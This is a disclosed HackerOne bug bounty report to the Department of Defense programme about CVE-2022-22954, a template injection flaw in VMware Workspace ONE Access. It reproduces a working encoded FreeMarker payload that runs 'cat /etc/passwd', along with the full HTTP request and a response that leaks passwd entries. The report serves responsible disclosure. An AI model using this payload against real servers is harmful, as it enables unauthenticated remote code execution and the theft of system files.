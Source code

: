 # ██████████ vulnerable to CVE-2022-22954

## Report Details
- **Report ID**: 1537543
- **URL**: https://hackerone.com/reports/1537543
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-04-11T15:17:31.822Z
- **Disclosed**: 2022-04-29T13:58:40.254Z

## Reporter
- **Username**: v1ct0rv0nd00m
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
I found that one of the targets belongs to **DOD** vulnerable to **CVE-2022-22954** where an attacker may be able to execute any malicious code like escalating Remote code execution is also possible 

**Technical Summary:**

CVE-2022-22954 is a server-side template injection vulnerability in the VMware Workspace ONE Access and Identity Manager. This vulnerability was assigned a CVSSv3 score of 9.8. An unauthenticated attacker with network access could exploit this vulnerability by sending a specially crafted request to a vulnerable VMware Workspace ONE or Identity Manager. Successful exploitation could result in remote code execution by exploiting a server-side template injection flaw.

**Vulnerable URL:**

https://████/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d

## Impact

The impact of server-side template injection vulnerabilities is generally critical, resulting in remote code execution by taking full control of the back-end server. Even without the code execution, the attacker may be able to read sensitive data on the server

## System Host(s)
███████

## Affected Product(s) and Version(s)
VMware workspace One

## CVE Numbers
CVE-2022-22954

## Steps to Reproduce
* Visit the vulnerable URL **https://████** and Intercept the request in burp suite
* Append the following endpoint **/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d** and analyze the response you will see the contents of **/etc/passwd**

**Request:**

```
GET /catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d HTTP/1.1
Host: █████████
Cookie: LOGIN_XSRF=NSlYKinVNwgOtuT; JSESSIONID=A86B60C5FD0B58346764D1FB01DAF155
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Cache-Control: max-age=0
Te: trailers
Connection: close
```

**Response:**

```
HTTP/1.1 400 
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Set-Cookie: EUC_XSRF_TOKEN=6386e149-ff55-4a34-b474-30e6c0c62299; Path=/catalog-portal; Secure
Cache-Control: no-cache,private
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000 ; includeSubDomains
X-Frame-Options: SAMEORIGIN
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Date: Mon, 11 Apr 2022 15:03:40 GMT
Connection: close
Content-Length: 3576

<!DOCTYPE HTML>
<html xmlns="http://www.w3.org/1999/html">
<head>
    <title>Error Page</title>
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1"/>
    <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
    <style>
        body {
            background: #465361;
        }

        .error-container {
            position: fixed;
            top: 50%;
            left: 50%;
            transform: translate(-50%, -50%);
            -ms-transform: translate(-50%, -50%);
            text-align: center;
            width: 25%;
            background-color: #fff;
            padding: 20px;
            box-shadow: 0 3px 2px -2px rgba(0, 0, .5, 0.35);
            border-radius: 4px;
        }

        .error-img-container svg {
            width: 40px;
        }

        .error-text-heading {
            font-weight: bold;
            padding-top: 5px;
            padding-bottom: 10px;
        }

        .error-text-container a {
            text-decoration: none;
        }
    </style>
</head>

<body>
<div class="error-container">
    <div class="error-img-container">
        <svg id="icon-warning-big" xmlns="http://www.w3.org/2000/svg" width="32" height="32" viewBox="0 0 32 32">
            <path d="M28.48,24.65,17.64,5.88a1.46,1.46,0,0,0-1.28-.74h0a1.46,1.46,0,0,0-1.28.74L4.25,24.64a1.48,1.48,0,0,0,1.28,2.22H27.2a1.48,1.48,0,0,0,1.28-2.21Zm-1.07.86a.24.24,0,0,1-.21.12H5.53a.24.24,0,0,1-.21-.37L16.15,6.49a.24.24,0,0,1,.21-.12h0a.24.24,0,0,1,.21.12L27.41,25.26A.23.23,0,0,1,27.41,25.51Z"
                  fill="#991700" stroke-width="0"/>
            <circle cx="16.36" cy="13.53" r="0.92" fill="#f38b00" stroke-width="0"/>
            <path d="M16.36,16.43a.62.62,0,0,0-.62.62v5.55a.62.62,0,0,0,1.23,0V17A.62.62,0,0,0,16.36,16.43Z"
                  fill="#991700" stroke-width="0"/>
        </svg>
    </div>
    <div class="error-text-heading">Request Failed</div>
    <div class="error-text-container">
        <p>Please contact your IT Administrator.</p>
        <a href="/catalog-portal/ui/logout?error=&deviceUdid=$%7B%22freemarker.template.utility.Execute%22?new()(%22cat%20/etc/passwd%22)%7D">Sign Out</a>
    </div>
</div>
</body>
<script>
    if (console && console.log) {
        console.log("auth.context.invalid");
        console.log("Authorization context is not valid. Login request  received with tenant code: ███████, device id: root:x:0:0:root:/root:/bin/bash\nbin:x:1:1:bin:/dev/null████████
    }
</script>
</html>
```

* As you can see the above response, which contains the response of **/etc/passwd** in the response

## Suggested Mitigation/Remediation Actions
Update the Instance to the latest version



## Attachments
No attachments
